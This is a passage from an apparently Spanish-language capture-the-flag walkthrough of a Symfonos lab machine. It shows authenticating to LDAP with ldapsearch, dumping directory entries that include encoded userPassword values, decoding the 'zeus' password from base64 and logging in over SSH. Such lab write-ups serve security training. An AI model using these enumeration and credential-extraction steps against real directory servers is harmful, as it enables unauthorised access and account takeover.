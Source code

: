 - Con esta información podríamos continuar con nuestro escaneo y enumeración de ldap.


# Escaneo básico de ldap (puerto 389 y 636):

- Al ya tener un posible usuario y contraseña, nos intentamos autenticar con el dc encontrado anteriormente y enumerar toda la información posible:

```bash
$ldapsearch -x -H ldap://192.168.1.37 -D "cn=admin,dc=symfonos,dc=local" -w "contraseña" -b "dc=symfonos,dc=local"
```

- Obtenemos bastante información proporcionada por el protocolo ldap, tomamos en cuenta la más importante:

```bash
# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User
```

- Como podemos ver, hay usuario del sistema con el nombre "zeus" y la password está contemplada en base64, la decodeamos e intentamos acceder por SSH:

```bash
echo -n "Y2V0a0tmNHdDdUhDOUZFVA==" | base64 -d; echo
```

```bash
$ssh zeus@192.168.1.37
```

- Ya habremos ganado al sistema como el usuario "zeus".

